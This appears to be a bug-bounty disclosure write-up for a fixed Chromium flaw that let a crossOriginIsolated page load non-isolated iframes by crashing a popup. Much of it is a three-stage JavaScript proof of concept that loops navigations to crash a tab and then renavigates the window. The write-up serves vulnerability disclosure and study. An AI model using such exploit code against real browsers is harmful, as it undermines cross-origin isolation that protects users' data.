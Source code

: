 ```yaml
---
title: crossOriginIsolated bypass (Awarded $3000)
---
```


This bug allowed for a `crossOriginIsolated` page to load non-COI-compatible iframes without the COI [restrictions](https://web.dev/why-coop-coep/), after navigating a popup to an invalid URL and crashing it. Cross-site page crashing was done by abusing [Issue 40744131](https://issues.chromium.org/issues/40744131).

```js
async function stage1() {
  w = open('https://invalid.local');
}

// Stage 2 can be skipped if you use the chrome task manager to crash it.  Issue 40744131
async function stage2() {
  checker = open();
  for (;;) {
    checker.location = 'data:';
    await new Promise((resolve) => setTimeout(resolve, 0));
    checker.location = 'https://invalid.local';
    await new Promise((resolve) => setTimeout(resolve, 100));
  }
}

// Run this once invalid.local tab is crashed
async function stage3() {
  checker.close();
  w.location = 'data:html,foo';
  await new Promise((resolve) => setTimeout(resolve, 100));
  w.location = 'about:blank';
}
```

This was fixed in <https://issues.chromium.org/issues/40056434>

